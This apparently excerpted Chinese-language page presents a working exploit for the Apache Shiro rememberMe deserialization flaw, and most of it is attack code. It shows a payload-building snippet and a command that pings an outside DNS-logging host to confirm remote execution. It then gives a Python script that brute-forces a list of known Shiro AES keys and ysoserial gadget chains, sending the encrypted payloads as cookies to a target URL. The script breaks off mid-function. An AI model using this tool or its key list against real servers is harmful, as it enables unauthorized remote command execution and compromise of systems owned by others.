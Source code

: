 ```

if __name__ == '__main__':
    payload = encode_rememberme(sys.argv[1])    
print "rememberMe={0}".format(payload.decode())
```

```
python2 create_payload.py "ping -n 3 66fysa.ceye.io || ping -c 3 66fysa.ceye.io"
```

得到构造好的rememberme的cookie，带着cookie去访问target就好



生成payload并发包的脚本：

```
#coding: utf-8
import os
import re
import time
import base64
import uuid
import subprocess
import requests
from Crypto.Cipher import AES
#JAR_FILE = 'ysoserial-master-SNAPSHOT.jar'
JAR_FILE = 'ysoserial.jar'
keys = ['Z3VucwAAAAAAAAAAAAAAAA==','kPH+bIxk5D2deZiIxcaaaA==','4AvVhmFLUs0KTA3Kprsdag==','3AvVhmFLUs0KTA3Kprsdag==','2AvVhdsgUs0FSA3SDFAdag==','wGiHplamyXlVB11UXWol8g==','fCq+/xW488hMTCD+cmJ3aQ==','1QWLxg+NYmxraMoxAXu/Iw==','ZUdsaGJuSmxibVI2ZHc9PQ==','L7RioUULEFhRyxM7a2R/Yg== ','6ZmI6I2j5Y+R5aSn5ZOlAA==','r0e3c16IdVkouZgk1TKVMg==','ZWvohmPdUsAWT3=KpPqda','5aaC5qKm5oqA5pyvAAAAAA==','bWluZS1hc3NldC1rZXk6QQ==','a2VlcE9uR29pbmdBbmRGaQ==','WcfHGU25gNnTxTlmJMeSpw==','LEGEND-CAMPUS-CIPHERKEY==','3AvVhmFLUs0KTA3Kprsdag==']
lis = ["BeanShell1","C3P0","Clojure","CommonsBeanutils1","CommonsCollections1","CommonsCollections2","CommonsCollections3","CommonsCollections4","CommonsCollections5","CommonsCollections6","FileUpload1","Groovy1","Hibernate1","Hibernate2","JBossInterceptors1","JRMPClient","JRMPListener","JSON1","JavassistWeld1","Jdk7u21","Jython1","MozillaRhino1","Myfaces1","Myfaces2","ROME","Spring1","Spring2","URLDNS","Wicket1",]
#keys = ['4AvVhmFLUs0KTA3Kprsdag==','']
def poc(url, rce_command,key,func):
    if '://' not in url:
        target = 'https://%s' % url if ':443' in url else 'http://%s' % url
    else:
        target = url
    try:
        payload = generator(rce_command, JAR_FILE,key,func)  # 生成payload
        #print payload
        print payload.decode()
        #exit()
        r = requests.get(target, cookies={'rememberMe': payload.decode()}, timeout=10,verify=False)  # 发送验证请求
    except Exception, e:
        print(e)
        pass
    return False
def generator(command, fp,aeskey,func):
    if not os.path.exists(fp):
        raise Exception('jar file not found!')
    
    popen = subprocess.Popen(['java', '-jar', fp,func, command],stdout=subprocess.PIPE)
 
    BS = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    key = aeskey
    mode = AES.MODE_CBC
```